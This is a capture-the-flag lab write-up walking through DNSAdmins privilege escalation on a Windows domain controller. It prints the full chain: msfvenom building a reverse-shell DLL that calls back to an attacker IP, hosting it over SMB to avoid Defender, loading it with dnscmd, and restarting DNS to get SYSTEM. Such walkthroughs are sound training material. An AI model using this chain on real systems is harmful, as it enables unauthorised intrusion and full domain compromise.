 ![](https://i.imgur.com/xPp9zlM.png)


### DNSAdmins Privilege Escalation
Searching for DNSAdmin Privilege Escalation, I had lot of articles popping up:

![](https://i.imgur.com/35ttjRT.png)


Out of all the articles, [this article](https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/) by hacking articles was the one that I found it most useful.

#### Execution
I first need to check whether user ryan is actually in **DNSAdmins** group; and yes, he is in **DNSAdmins** group:

`whoami /groups`

![](https://i.imgur.com/sJb6FS9.png)


I created **dll** file that will spawn me reverse shell using msfvenom:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.18 LPORT=443 -f dll -o rev.dll`

![](https://i.imgur.com/M98Ju5u.png)


There are several ways to transfer file to the target system but there is a possibility that malware scanner or Windows Defender might detect and remove it. Therefore, I used smbserver to transfer file over the network.

Now I host **smbserver** to have the dll file ready on it:

`smbserver.py s .`

![](https://i.imgur.com/fkO4tn8.png)



Using **dnscmd.exe**, I can pass the dll code into the memory as SYSTEM:

`dnscmd.exe /config /serverlevelplugindll \\10.10.14.18\s\rev.dll`

![](https://i.imgur.com/ej4uNYn.png)


Now only thing I have to do is to restart DNS:

`sc.exe \\resolute stop dns`

![](https://i.imgur.com/l7tsD5Q.png)



`sc.exe \\resolute start dns`

![](https://i.imgur.com/b6byaVk.png)
